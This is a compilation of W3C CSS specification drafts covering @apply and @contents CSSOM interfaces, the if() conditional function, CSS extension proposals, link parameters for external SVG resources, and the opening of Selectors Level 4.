#### 7.5. The `CSSApplyStatementRule` Interface {#css-mixins-1:the-apply-statement-interface}

The `CSSApplyStatementRule` interface represents an `@apply` rule without a contents block.

```webidl
[Exposed=Window]
interface CSSApplyStatementRule : CSSRule { 
  readonly attribute CSSOMString name;
  sequence<CSSOMString> getArguments();
};
```

****`name`**,  of type CSSOMString, readonly**

: The same as `CSSApplyBlockRule.name`.

****`getArguments()`****

: The same as `CSSApplyBlockRule.getArguments()`.

To **serialize a CSSApplyStatementRule**, return the concatenation of the following:

1. The string `"@apply"` followed by a single SPACE (U+0020).
2. The result of performing serialize an @apply prelude on the `@apply` rule.
3. A single SEMICOLON (U+003B).

#### 7.6. The `CSSContentsBlockRule` Interface {#css-mixins-1:the-contents-block-interface}

The `CSSContentsBlockRule` interface represents a `@contents` rule with a fallback block.

```webidl
[Exposed=Window]
interface CSSContentsBlockRule : CSSGroupingRule { };
```

The child CSS rules of a `CSSContentsBlockRule` represent the fallback block of the `@contents` rule.

As for `CSSMixinRule` and `CSSApplyBlockRule`, consecutive segments of declarations specified directly within the fallback block of a `@contents` rule are represented as `CSSNestedDeclarations`.

To **serialize a CSSContentsBlockRule**, return the concatenation of the following:

1. The string `"@contents"` followed by a single SPACE (U+0020).
2. A single LEFT CURLY BRACKET (U+007B), followed by a SPACE (U+0020).
3. The result of performing serialize a CSS rule on each rule in cssRules, filtering out empty strings, all joined by a single SPACE (U+0020).
4. A single SPACE (U+0020), followed by a RIGHT CURLY BRACKET (U+007D).

#### 7.7. The `CSSContentsStatementRule` Interface {#css-mixins-1:the-contents-statement-interface}

The `CSSContentsStatementRule` interface represents a `@contents` rule without a fallback block.

```webidl
[Exposed=Window]
interface CSSContentsStatementRule : CSSRule { };
```

To **serialize a CSSContentsStatementRule**, return the string `"@contents"`, followed by a single SEMICOLON (U+003B).

---

## CSS Conditional Values Module Level 1 {#css-conditional-values-1}

- **Shortname:** `css-conditional-values-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-conditional-values-1/](https://drafts.csswg.org/css-conditional-values-1/)
- **W3C Status:** UD (exploring)
- **Last Edited:** 2026-01-12

### 1. Introduction {#css-conditional-values-1:intro}

*This section is not normative.*

> **Note:** This section is a stub and needs to be expanded.

Authors frequently need to set a property to different values based on the relation between certain values.

#### 1.1. High level custom properties {#css-conditional-values-1:high-level-custom-properties}

A web component may support several custom properties which do not contain a value fragment verbatim, but set several properties across multiple rules indirectly. For example, a `--size` property with values `small`, `medium`, `large`, or an `--alignment` property with values `horizontal` and `vertical`.

#### 1.2. Relation between units of the same type {#css-conditional-values-1:relation-between-units}

Author code often needs to branch based on the relation between different units of the same type.

For example:

- Comparing viewport and absolute units allows compact one-off viewport dimension media queries
- Comparing font-relative units and absolute `<length>` units allows authors to apply different styling for small and large font sizes, enhancing readability.

#### 1.3. Value Definitions {#css-conditional-values-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. Boolean data types {#css-conditional-values-1:boolean}

#### 2.1. Boolean constants: `true` and `false` {#css-conditional-values-1:bool-constants}

```css
<boolean-constant> = 'true' | 'false'
```

#### 2.2. Logical comparisons: The `<condition>` type {#css-conditional-values-1:condition}

```css
<condition> = not <condition-in-parens>
                     | <condition-in-parens> [ and <condition-in-parens> ]*
                     | <condition-in-parens> [ or <condition-in-parens> ]*
<condition-in-parens> = ( <condition> ) | <atomic-condition>
<atomic-condition> = <comparison-operand> <comparison-operator> <comparison-operand> | <boolean-constant>
<comparison-operand> = <dimension> | <number> | <percentage> | <ident>
<comparison-operator> = [ '=' | '>=' | '>' | '<' | '<=' ]
```

> **Note:** A future version of this module may expand `<comparison-operand>` to complex types, such as colors.

`<condition>` values are logical expressions that resolve to a `<boolean-constant>` by performing simple comparisons and following basic boolean operators. When using `and` or `or` operators, precedence must be enforced with parentheses. The `not` operator does not require this, and has higher precedence than `and` and `or`.

Each of these grammar terms is associated with a boolean result, as follows:

**`<condition>` `<condition-in-parens>`**

: The result is the result of the child subexpression.

**not `<condition-in-parens>`**

: The result is the negation of the `<condition-in-parens>` term. The negation of unknown is unknown.

**`<condition-in-parens>` [ and <condition-in-parens> ]***

: The result is true if all of the `<condition-in-parens>` child terms are true, false if at least one of the <condition-in-parens> is false, and unknown otherwise.

**`<condition-in-parens>` [ or <condition-in-parens> ]***

: The result is false if all of the `<condition-in-parens>` child terms are false, true if at least one of the <condition-in-parens> is true, and unknown otherwise.

These rules are consistent with the way conditions are resolved in [css-conditional-3].

> **Issue:** Together with this, there are currently 3 specs ([css-conditional-3], [mediaqueries-4]) using boolean operators, and two defining how they work ([css-conditional-3] and this). Ideally, this should be defined in one place, and cited everywhere else.

Both `<comparison-operand>` values in `<atomic-condition>` need to be of the same type. If they are not, the entire condition becomes an **invalid condition** and evaluates to unknown.

These operations are only defined on computed values. (As a result, it is not necessary to define, for example, how to compare a `<length>` value of `15pt` with `5em` since such values will be resolved to their canonical unit before being passed to any of the above procedures.)

> **Example:** For example, `5px > 4deg` is an invalid condition because the first operand is a `<length>` and the second is an `<angle>`.

The host syntax defines how relative values (such as percentages or em units) are resolved in `<comparison-operand>`. When `<condition>` is used in a declaration, these relative values resolve in the same way as regular values in the declaration property.

> **Note:** Why are we using `=` for equality and not ':' as is established in [css-conditional-4] already? Because a lot of third party code (syntax highlighters etc) assumes that colons separate declarations and would break. Also, `foo: bar` establishes a key-value pair, whereas in equality comparisons the two operands are of equal weight, and do not establish a key-value pair.

> **Issue:** Do we need a "not equals" operator or is 'not(op1 = op2)' sufficient?

The `<condition>` is resolved at computed value time, though its calculation tree may be simplified earlier.

> **Example:** For example, `(5px > 4px) and (1em = 2em)` can be simplified to `(true) and (false)` and then to `false` at parse time and serialized as such.

##### 2.2.1.  Computed Value {#css-conditional-values-1:condition-computed-value}

The computed value of a `<condition>` value is its calculation tree simplified, using all the information available at computed value time. (Such as the `em` to `px` ratio, how to resolve percentages etc.)

Where percentages are not resolved at computed-value time, they are not resolved in `<condition>`.

The calculation tree is again simplified at used value time; with used value time information, a `<condition>` always simplifies down to a single `<boolean-constant>`.

> **Issue:** Define these concepts for comparisons (currently they point to calc())

### 3. Inline conditionals: The `if()` function {#css-conditional-values-1:if}

The **if()** function allows authors to set a property value (or parts thereof) to different values based on certain conditions.

```css
<if()> = if( <condition>, <consequent>, <antecedent>? )
<consequent> = <declaration-value>
<antecedent> = <declaration-value>
```

> **Issue:** How can authors specify consequents or antecedents that include commas? Alternative syntax that addresses this, though may be hard to read when consequent/antecedent are keywords:

```css
<if()>  = if( <condition> then <consequent> [else <antecedent>]?)
<consequent> = <declaration-value>
<antecedent> = <declaration-value>
```

> **Example:** Authors can write inline media queries by comparing viewport and absolute units:
>
> ```
> flex-flow: if(100vw > 500px, row, column);
> ```

When `<antecedent>` is omitted, it defaults to ' ' (empty value).

> **Example:** This allows authors to use conditionals to toggle certain parts of a value and even "compose" a property value from a series of conditionals:
>
> ```
> background: if(var(--raised) = on, linear-gradient(white, transparent)) hsl(200 100% 50%);
> ```

> **Example:** This also allows authors to write multiple branches for the same value side by side instead of deeply nesting them:
>
> ```
> font-size: if(var(--size) = small, 2em)
>            if(var(--size) = medium, 3em)
>            if(var(--size) = large, 5em)
> ```

If after substitution of all `if()` values in a property value, the resulting declaration is invalid, the property containing the `if()` function is invalid at computed-value time.

When `if()` is used in shorthands, it has the same [behavior](../css-variables#variables-in-shorthands) as the `var()` function, for the same reasons.

> **Issue:** How to disambiguate when used in a place where arguments are disambiguated by type? Unlike `var()`, this cannot just be resolved at substitution, because we need to be able to interpret the values to compute the condition and perform the substitution accordingly. One way to address this would be to mandate that both `<consequent>` and `<antecedent>` need to be of the same type. How much does that limit use cases?

---

## CSS Extensions Module Level 1 {#css-extensions-1}

- **Shortname:** `css-extensions-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-extensions](https://drafts.csswg.org/css-extensions)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2025-11-05

### 1.  Introduction {#css-extensions-1:intro}

When authoring CSS, one often encounters significant repetition in certain features. For example, a given media query might be repeated in several places, or a selector meant to apply to all heading elements requires specifying `:is(h1, h2, h3, h4, h5, h6)` in every location that uses it.

This repetition makes stylesheets more verbose and difficult to read, and also affects maintenance, as the author has to keep each repetition in sync when making any changes.

This specification defines methods for extending several CSS features so that a long or repeatedly-used value can be given a short, memorable name instead, or a feature can be given a more complex definition controlled by a scripting language. This makes stylesheets easier to read, and more powerful in general, as authors can extend the feature-set of CSS themselves rather than waiting for standards bodies to define new features for them.

### 2.  Extension Names {#css-extensions-1:extension-name}

All extensions defined in this specification use a common syntax for defining their ”names”: the `<extension-name>` production. An **<extension-name>** is any identifier that starts with two dashes (U+002D HYPHEN-MINUS), like `--foo`, or even exotic names like `--` or `------`. The CSS language will never use identifiers of this form for any language-defined purpose, so it’s safe to use them for author-defined purposes without ever having to worry about colliding with CSS-defined names.

### 3.  **Custom Selectors** {#css-extensions-1:custom-selectors}

A **declarative custom selector** is defined with the `@custom-selector` rule:

```css
@custom-selector = @custom-selector <custom-selector> <selector-list> ;
<custom-selector> = <custom-arg>? : <extension-name> [ ( <custom-arg>+#? ) ]?
<custom-arg> = '$' <ident-token>
```

Where there must be no whitespace between `:` and `<extension-name>` or between `$` and `<ident-token>` in the above definitions.

> **Issue:** Simple things are easy:
>
> ```
> @custom-selector :--heading {
>   expansion: h1, h2, h3, h4, h5, h6;
> }
> ```
>
> More complicated things are possible:
>
> ```
> // Arguments are specified with $foo.
> // An arg before the pseudo-class captures the rest of the compound selector.
> @custom-selector $rest:--n-siblings($n, $sel) {
>   specificity: $sel;
>   // assumes $sel is a selector, parses it and uses its specificity
>   // otherwise, specificity is [0,1,0]
>   expansion: $rest:nth-child(1 of $sel):nth-last-child($n of $sel),
>     :nth-child(1 of $sel):nth-last-child($n of $sel) ~ $rest;
> }
> ```

This defines a custom selector which is written as a pseudo-class with the given `<extension-name>`, and represents a `:is()` selector using the provided `<selector-list>` as its argument.

> **Example:** For example, if an author wanted to easily refer to all heading elements in their HTML document, they could create an alias:
>
> ```
> @custom-selector :--heading h1, h2, h3, h4, h5, h6;
>
> :--heading { /* styles for all headings */ }
> :--heading + p { /* more styles */ }
> /* etc */
> ```

#### 3.1.  Script-based Custom Selectors {#css-extensions-1:script-custom-selectors}

> **Issue:** This one’s more complicated than MQs. Brian Kardell came up with a good proposal for evaluating selectors as JS functions that return a boolean, which had decent performance characteristics by specifying the qualities of the element it was based on (which determined when it would be called).
>
> ```
> <script>
> CSS.customSelector.set("_foo",
>                      {"predicate": function(el){...},
>                        "matches": "a"});
> </script>
> ```
>
> "matches" is an optional selector specifying what subset of elements the custom selector is valid for. The selector is automatically false for elements that don’t match, and the predicate isn’t called.
>
> By default, the predicate is called whenever there’s a mutation in an element that matches the "matches" selector, or one of its descendants.
>
> You should be able to suppress the auto-calling, and be able to trigger the predicate to run manually. That way you can use mutation listeners manually to only call the predicate when necessary.
>
> We should probably offer some sugar for filtering the list of mutations that trigger the predicate to be called. Maybe just a list of attributes that you’ll be caring about? And/or tagnames?
>
> Maybe let the pseudo-class also accept an argument, and pass it (as a serialized string) as a second argument to the predicate. `:_foo` would pass `null`, while `:_foo()` would pass `""`.

#### 3.2.  CSSOM {#css-extensions-1:custom-selectors-cssom}

> **Issue:** Fill in.

### 4.  Custom Properties {#css-extensions-1:custom-property}

> **Issue:** Need to more fully support Custom Properties (and eventually remove them from the variable spec entirely, since they’ll be defined here).
>
> By default, custom properties are optimized for use as `var()` values—​they inherit, have an empty initial value, don’t do any syntax checking, and don’t animate. All of these should be adjustable somehow.
>
> ```
> @custom-property --foo {
>   scope: [ inherit | local ];
>   initial: <declaration-value>*;
>   value: <length> <length> <color>;
>   /* Literally, define a simplistic definition syntax.
>      OR FULL CSS PROPERTY GRAMMAR?!? */
> }
> ```
>
> If you provide a "value" field with animatable types, we can animate in the most direct fashion automatically. We could also let you hook into that: you register a callback, and whenever a property starts animating, we call it with the starting and ending values. You have to return a function which takes a progress value (between 0 and 1) and returns a value for your property; we’ll call it as we animate the value. (How can we hook into Web Anim here? Can you just return an Animation object?)
>
> Do we need a hook for computed values? Interesting. We could just hand your callback a set of property values for the element and its parent (maybe siblings, if you ask for it?), and you can return a new value for the property. This is probably an advanced feature for a later date.
>
> Definitely need a way to listen for elements receiving and changing property values, so you can efficiently polyfill things and make your own properties. Unsure how it would look at the moment.

### 5.  Custom Functions {#css-extensions-1:custom-functions}

> **Issue:** Interesting possibilities here. Definitely need some way to define custom functions in CSS. This would, for example, let people define whatever color function they want, such as implementing the [HUSL](http://www.boronine.com/husl/) color space.
>
> Definitely need a JS interface. What options are needed?
>
> Call time/frequency:
>
> - Default should probably treat the function as a preprocessor, calling the JS function once per instance in the stylesheet and substituting in the returned value.
> - Should probably have an option to allow calling per element/instance combo, too. Gets called more as match results change.
>
> We can take some cues from my thoughts on a random() function. It needs per-instance, per-element&instance, and per "identifier", so you can reuse the same value in multiple spots. That last one can probably be handled manually by the JS, so we don’t have to privilege a particular argument as an identifier.
>
> We’d need to provide the context in which it’s used. Which property, for example. Should we allow them to be used in other places, or should we just define more contextual locations as we go? That is, should we allow custom-defined functions in @supports with this API, or should we add a `.customSupports` map? I suspect that individual cases will have their own useful contextual information, so it’s better to specialize each instance of custom functions.
>
> How much can we do in pure CSS? Being able to substitute values depending on MQs or support queries would be useful. (However, we can do that much just by using custom properties and `var()`.) To get *real* use out of it, though, I suspect we’d need fuller support for conditionals, likely in the form of SASS’s `@if` or something similar.

### 6.  Custom Selector Combinators {#css-extensions-1:custom-combinators}

> **Issue:** Selectors are made of two pieces: simple selectors, and combinators. We should allow custom combinators too.
>
> This is JS-only, because it’s transforming elements, not filtering them, and you can’t express any useful transformations in pure CSS.
>
> You provide a function which, when given an element, produces a list of zero or more elements.
>
> For examples, with `div /--foo/ span`, the CSS engine will match the first part of the selector and find all the div elements. It passes that list to the function registered for the --foo combinator, and expects to get a new list of elements returned. It then continues on its way, filtering that list to include only span elements, etc.
>
> A child combinator would be something like:
>
> ```
> CSS.customCombinator.set("--child", function(el) {
>     return el.children;
>   });
> ```
>
> Then `div /--child/ span` would be identical to `div > span`.
>
> If we generalize a selector with a custom combinator to `A /--custom/ B`, then the UA would automatically call the --custom function whenever new elements match `A`. If elements stop matching `A`, it won’t bother; it’ll just drop them from the result.
>
> Alternately, the function could take a list of elements (all the elements matching `A`) and return a new list of elements. This would be a bit more complicated for the author, but would allow more variety in the types of combinators that could be defined, as you could define things that depend on the entire set of matched elements. For example, you could define `A /nth 1/ B` to give only the first element from the set of `A` matches.
>
> (Maybe we allow both variants, since the per-element one is easier to optimize and program against, but the per-set one allows some useful stuff.)
>
> Similarly to custom pseudo-classes, we’d allow arguments, with them parsed eagerly per-instance and passed to the combinator function.
>
> If we do the per-element combinator function, we could potentially cache the results, so that it never needs to be called again for the same element. Possibly have a flag that turns off this behavior, so that you’re guaranteed to be called again.

### 7.  Custom At-Rules {#css-extensions-1:custom-atrules}

> **Issue:** This one’s even less developed, but it would be interesting to allow custom at-rules as well. It’s definitely pure-JS as well.
>
> Unsure exactly what’s best here. Possibly register a callback per rule, which is called with the prelude/contents of the at-rule?
>
> Should we do the callback approach, or just maintain a list of custom at-rules and let scripts parse them themselves? Unfortunately, the latter means we’d have to have a special mechanism to alert scripts when new at-rules get added or removed.
>
> For a lot of these at-rules, we may want a way to know when they’re "applied"—​when, according to the built-in at-rules like @media and @supports, the rule would be applied.

---

## CSS Linked Parameters Module Level 1 {#css-link-params-1}

- **Shortname:** `css-link-params-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-link-params/](https://drafts.csswg.org/css-link-params/)
- **Published TR:** [https://www.w3.org/TR/css-link-params-1/](https://www.w3.org/TR/css-link-params-1/)
- **W3C Status:** FPWD (refining)
- **Last Edited:** 2026-11-03

### 1. Introduction {#css-link-params-1:intro}

SVG is stylable with CSS, and when used inline in HTML, this capability can be very useful. For example, an SVG icon can take on a different color based on whether the user is hovering it or not, just by applying a `:hover` rule to it that changes the `fill` property.

When the SVG is referenced in a way that doesn’t allow selectors or CSS inheritance from the outer page to apply to it (such as embedding it via `img` or `iframe` in HTML), though, this functionality is lost. The only way to change the display of such "external" SVG images is to produce several of them, and change which image you’re referencing. This incurs delay on the page as a new resource is downloaded, and disallows dynamic effects like CSS Transitions.

**CSS link parameters** are a way to set CSS custom environment variables on an "external" resource, either by a CSS property or thru a special fragment scheme on the URL. This gives a limited, but powerful, subset of the customizability that "inline" SVG images have to "external" SVG images, or to other linked resources that use CSS to style themselves.

A link parameter is a pair of a `<dashed-ident>` name, and an arbitrary (possibly empty) `<declaration-value>` value.

> **Example:** For example, an SVG image can be written to use link parameters, allowing it to have its colors changed on the fly, like:
>
> ```
> <svg>
>   <path fill="env(--color, black)" d="..." />
> </svg>
> ```
>
> By default, it will fill its shape with black, as that’s the fallback color specified. But link parameters can customize the color in several ways:
>
> ```
> 
> ```
>
> ```
> img {
>   link-parameters: param(--color: green);
> }
> ```
>
> ```
> .foo {
>   background-image: url("image.svg", param(--color: green));
> }
> ```

### 2. Setting a Link Parameter {#css-link-params-1:setting}

An external resource can be accompanied by a list of link parameters, a struct composed of:

- a **name**, usually a `<dashed-ident>`
- an optional **type**, a `<css-type>`
- a **value** (potentially empty), a CSS value

There are three ways to specify a link parameter:

- via the `link-parameters` property, which applies to the resource itself (if the element represents an external resource), and to all external resources used in CSS properties on the element
- via a fragment directive directly in the URL of an external resource.
- via a `param()` argument in a `<url>`

If specified in multiple of these ways, all of the link parameters are appended into a single list for the external resource, in the order:

1. the `link-parameters` property on the element, if relevant
2. the link parameter directives of the URL
3. the `param()` `<url-modifier>`s in `url()`

If multiple link parameters exist with the same name, the last one in the list is used.

How to access link parameters in the linked resource is defined in the next section, [§ 3 Using Link Parameters](#css-link-params-1:using).

#### 2.1. The `param()` Function {#css-link-params-1:param}

All three methods of setting link parameters share the same syntax for *defining* a parameter, using the **param()** function:

```css
param() = param( <param-spec> [ ':' <declaration-value>? ]? )
<param-spec> = color | accent-color | [ <dashed-ident> <css-type>? ]
```

Depending on the `<param-spec>`, the `param()` function defines a link parameter in slightly different ways:

****color****

: - Name: `color`
  - Type: `<color>`
  - Value: The second argument, if specified. Otherwise, the value of `color` on the element.

****accent-color****

: - Name: `accent-color`
  - Type: `<color>`
  - Value: The second argument, if specified. Otherwise, the value of `accent-color` on the element.

****`<dashed-ident>`****

: - Name: the `<dashed-ident>`
  - Type: the `<css-type>`, if specified.
  - Value: The second argument, if specified. Otherwise, the value of the custom property with the specified name on the element.

> **Note:** that a completely empty second argument is valid, and is indicated by specifying the colon separating it from the first argument.
>
> That is, `param(--foo)` indicates that the link parameter is using the default value, drawing from the `--foo` custom property on the element.
>
> On the other hand, `param(--foo:)` explicitly gives the link parameter an empty value.
>
> This is similar to `var(--foo)` having no fallback, but `var(--foo,)` having an empty fallback.

If the link parameter has a type, the value (default or manually provided) is parsed as that type. If it fails to parse as the given type, the link parameter is invalid and ignored. (The `param()` defining it is not invalid.)

> **Note:** Authors can specify fallbacks by repeating a single `param()` multiple times, like `param(--foo <color>: blue), param(--foo <color>: xztheta(1 2 3))`, which will use the (currently undefined) `xztheta()` color function if it’s supported and `blue` in user agents that don’t support that function, similar to specifying a property multiple times.

A `param()` function usually has an element context from the way it’s used. If present, the value uses that context (and the type, if present) to fully resolve itself to a used value before being passed into the linked resource. If the value *needs* an element context to fully resolve, but doesn’t have one, the link parameter is invalid and ignored.

> **Note:** For example, `param(--foo <color>: currentcolor)` will use the element context to resolve to a specific color, rather than somewhat uselessly passing as the keyword.
>
> Even without a type, arbitrary substitution functions will attempt to resolve in the value, and might need an element context (for example, `var()` and `attr()` both do).
>
> Other values will be left unresolved without a type; for example, `param(--foo: currentcolor)` will pass the `currentcolor` keyword itself, without resolving it as a `<color>`, and thus doesn’t need an element context.

Similarly, if a `param()` doesn’t provide a second argument, and doesn’t have an element context, the link parameter is invalid and ignored. (Because the default draws on the value of a property on the element.)

#### 2.2. For An Entire Element: the `link-parameters` property {#css-link-params-1:link-parameters}

| Field | Value |
| --- | --- |
| Name: | **link-parameters** |
| [Value:](#css-values-4:value-defs) | none \| `<param()>`# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | all elements and pseudo-elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `link-parameters` property is one way to set link parameters on the element itself (if it is an element representing an external resource, such as an HTML `img` or `iframe`), and on all external CSS resources specified on the element (such as background images, etc). Its values are:

****none****

: No link parameters are specified.

****`<param()>`#****

: A list of one or more link parameters.

The `param()` functions used in `link-parameters` use the element they’re set on as the element context.

> **Note:** If there are multiple images on the given element (content image and/or CSS images like backgrounds), they’ll all recieve all the values in `link-parameters`, even if they don’t use them. This is generally safe, as you need to use `env()` to access a link parameter in the linked resource, tho `color` and `accent-color` do have additional side-effects.

#### 2.3. For A Single URL: the `<url-modifier>` {#css-link-params-1:url-modifiers}

While `link-parameters` sets link parameters for *every* URL on an element, sometimes you want to set parameters for only one resource, or use the same resource multiple times on an element with different parameters. For this, you can use one or more `param()` functions directly in the `<url>` specifying the linked resource, as a `<url-modifier>`.

> **Example:** For example, if the site is using a `--primary-color` custom property to theme its elements with, and wanted an SVG background using `env(--color)` to reflect it, it could write:
>
> ```
> .foo {
>   background-image: url(
>     "http://example.com/image.svg"
>     param(--color, var(--primary-color))
>   );
> }
> ```

The `param()` functions used in a `<url>` use the element they’re set on as the element context.

#### 2.4. Outside Of CSS: in the URL itself {#css-link-params-1:url-frag}

Link parameters can be used outside of CSS, by embedding them directly into the URL as a fragment directive.

> **Note:** Text directives are another example of fragment directives, letting you link to specific text somewhere in a document.

The **link parameter directive** is a fragment directive with the following syntax:

```
:~:param(...)
```

Where the `...` represents any sequence of URL codepoints and/or percent-encoded bytes.

After URL-decoding, the link parameter directive is then parsed as a `<param()>`. If it fails to parse, the directive is ignored. Otherwise, it’s added to the embedded document’s list of link parameters, as specified in [§ 2.1 The param() Function](#css-link-params-1:param).

> **Example:** For example, to set the `env(--text-color)` custom environment variable of an SVG image to `blue`, one can reference the image with a url like “`http://example.com/image.svg#:~:param(--text-color:blue)`”.

> **Note:** Spaces, and some other characters that might be valid in CSS syntax, are not technically valid in URLs. In some contexts, you might need to escape those characters to form a valid URL. In most cases, though, such as HTML’s `a` element or CSS’s `url()` function, spaces are accepted and do not need to be escaped.

Multiple link parameters can be passed to an image by appending multiple link parameter directives to the URL. When combined, either with each other or with other "fragment identifiers", each value is separated with an `&` character, as in a URL’s query parameters.

> **Example:** For example, if the image from the previous example also used `env(--bg-color)`, it could be referenced with a url like “`http://example.com/image.svg#:~:param(--text-color:blue)&param(--bg-color:white)`” to set both `env(--text-color)` and `env(--bg-color)`.

If the URL is specified in a URL attribute on an element, such as ``, resolving the `param()` values (as specified in [§ 2.1 The param() Function](#css-link-params-1:param)) uses that element as the context. Otherwise (for example, if navigated to directly in the URL bar) there is no element context.

> **Example:** For example, `param(color)` requires an element context (to obtain the default value, taken from the `color` property).
>
> Using `` in your document works as expected, drawing from the `img` element’s `color` property. Navigating directly to `example.svg#:~:param(color)` will instead ignore the `param(color)`, as if it weren’t passed at all.
>
> Similarly, `param(color: light-dark(black, white))` requires an element context (to determine the color scheme), and would work the same as above.
>
> On the other hand, `param(--foo: light-dark(black, white))` *does not* require an element context, as the parameter is untyped. The literal value `light-dark(black, white)` will be passed down to the linked resource, without resolving in any way, whether specified in `` or directly navigated to.

### 3. Using Link Parameters {#css-link-params-1:using}

When an external resource link has one or more link parameters specified, if the linked resource understands CSS (such as an SVG or HTML document), then those link parameters affect the style of the linked resource in certain ways, depending on the parameter’s name:

**`color` `accent-color`**

: The `color` and/or `accent-color` environment variables are created and set to the passed value. A rule in the SVG UA stylesheet (defined in [§ 3.1 UA Stylesheet](#css-link-params-1:ua-stylesheet)) uses this value to set properties on the document’s root element.

**`<dashed-ident>`**

: A custom environment variable is established on the linked resource, using the name and value.

> **Example:** For example, if an SVG image wanted to expose a `--color` parameter, it could use it like:
>
> ```
> <svg>
>   <g style="fill: env(--color);">
>     <path d="..." />
>   </g>
> </svg>
> ```
>
> Alternately, it could just rely on the `currentcolor` keyword, allowing the color to be passed with `param(color: blue)`.

> **Note:** It’s usually a good idea to make your SVG image usable even if no parameters are given, by providing "default values" for each of the custom properties. There are several ways to do this.
>
> 1. On each `env()` function, provide a fallback value, like `fill: env(--color, blue)`.
> 2. If the `env()` is going to be used a lot, such that providing a fallback for each individual `env()` is troublesome, store the custom environment variable in a custom property on the root element with the default specified, like:
>
>    ```css
>    :root {
>   --color: env(--color, blue);
>    }
>    ```
>
>    In this example, if `--color` is provided via a linked parameter, `var(--color)` will contain its value. If not, it will contain the default `blue` value. In either case, `var(--color)` can be used in the stylesheet unconditionally, secure in the knowledge that it will always have a value.

> **Issue:** Is it useful to supply the "color" and "accent-color" values via an environment variable as well? This would probably just mean defining `env(color)`/etc on all documents, resolving to the initial value of `color`.

#### 3.1. UA Stylesheet {#css-link-params-1:ua-stylesheet}

The UA stylesheet for SVG documents is amended to contain the following rule:

```
:root {
  color: env(color, CanvasText);
  accent-color: env(accent-color, AccentColorText);
}
```

#### 3.2. Tainting {#css-link-params-1:tainting}

A custom environment variable created by a link parameter is attr()-tainted if the `param()` that defined the link parameter was attr()-tainted.

#### 3.3. Multiple Images With The Same URL {#css-link-params-1:multiple}

When an HTML document contains multiple `img` elements with the same `src` value, it considers them all "the same image" in some respects. Notably, animation timers (animating a GIF or similar animated raster format, or driving a CSS animation on an SVG) are defined to match across all such elements, even if they’re added to the document at different times.

User agents generally implement this by creating only a single image document, shared by all the `img` elements. This solves the animation problem, and avoids wastefully creating duplicate documents when a single image is repeated many times on a page (such as in the infamous "Hamster Dance" website).

However, link parameters allow these separate images to be styled differently. (As does `color-scheme`, which affects the image’s preferred color scheme, and potentially the width/height of the `img`, which would affect the `width`/`height` media features.)

User agents must paint images with the correct styling values in these cases. To the extent that it’s unobservable, they can still use a shared document; for example, they can associate each `img` with its own bespoke list of painting commands or cached rasterization while still having them share an underlying SVG document.

---

## Selectors Level 4 {#selectors-4}

- **Shortname:** `selectors-4`
- **Editor's Draft:** [https://drafts.csswg.org/selectors/](https://drafts.csswg.org/selectors/)
- **Published TR:** [https://www.w3.org/TR/selectors-4/](https://www.w3.org/TR/selectors-4/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-11-10

### 1.  Introduction {#selectors-4:context}

*This section is not normative.*

A selector is a boolean predicate that takes an element in a tree structure and tests whether the element matches the selector or not.

These expressions may be used for many things:

- directly on an element to test whether it matches some criteria, such as in the `element.matches()` function defined in [DOM]
- applied to an entire tree of elements to filter it into a set of elements that match the criteria, such as in the `document.querySelectorAll()` function defined in [DOM] or the selector of a CSS style rule.
- used "in reverse" to generate markup that would match a given selector,  such as in [HAML](http://haml.info/) or [Emmet](https://en.wikipedia.org/wiki/Emmet_(software)) .

Selectors Levels 1, 2, and 3 are defined as the subsets of selector functionality defined in the [CSS1](https://www.w3.org/TR/REC-CSS1), [CSS2.1](#css2), and [Selectors Level 3](#selectors-5) specifications, respectively. This module defines Selectors Level 4.

#### 1.1. Module Interactions {#selectors-4:placement}

This module replaces the definitions of and extends the set of selectors defined for CSS in [SELECT] and [CSS21].

Pseudo-element selectors, which define abstract elements in a rendering tree, are not part of this specification: their generic syntax is described here, but, due to their close integration with the rendering model and irrelevance to other uses such as DOM queries, they will be defined in other modules.

### 2.  Selectors Overview {#selectors-4:overview}

*This section is non-normative, as it merely summarizes the following sections.*

A selector represents a structure. This structure can be used as a condition (e.g. in a CSS rule) that determines which elements a selector matches in the document tree, or as a flat description of the HTML or XML fragment corresponding to that structure.

Selectors may range from simple element names to rich contextual representations.

The following table summarizes the Selector syntax:

| Pattern | Represents | Section | Level |
| --- | --- | --- | --- |
| `*` | any element | [§ 5.2 Universal selector](#selectors-4:the-universal-selector) | 2 |
| `E` | an element of type E | [§ 5.1 Type (tag name) selector](#selectors-4:type-selectors) | 1 |
| `E:not(s1, s2, …)` | an E element that does not match either compound selector *s1* or compound selector *s2* | [§ 4.3 The Negation (Matches-None) Pseudo-class: :not()](#selectors-4:negation) | 3/4 |
| `E:is(s1, s2, …)` | an E element that matches compound selector *s1* and/or compound selector *s2* | [§ 4.2 The Matches-Any Pseudo-class: :is()](#selectors-4:matches) | 4 |
| `E:where(s1, s2, …)` | an E element that matches compound selector *s1* and/or compound selector *s2* but contributes no specificity. | [§ 4.4 The Specificity-adjustment Pseudo-class: :where()](#selectors-4:zero-matches) | 4 |
| `E:has(rs1, rs2, …)` | an E element, if there exists an element that matches either of the relative selectors *rs1* or *rs2*, when evaluated with E as the anchor elements | [§ 4.5 The Relational Pseudo-class: :has()](#selectors-4:relational) | 4 |
| `E.warning` | an E element belonging to the class `warning` (the document language specifies how class is determined). | [§ 6.6 Class selectors](#selectors-4:class-html) | 1 |
| `E#myid` | an E element with ID equal to `myid`. | [§ 6.7 ID selectors](#selectors-4:id-selectors) | 1 |
| `E[foo]` | an E element with a `foo` attribute | [§ 6.1 Attribute presence and value selectors](#selectors-4:attribute-representation) | 2 |
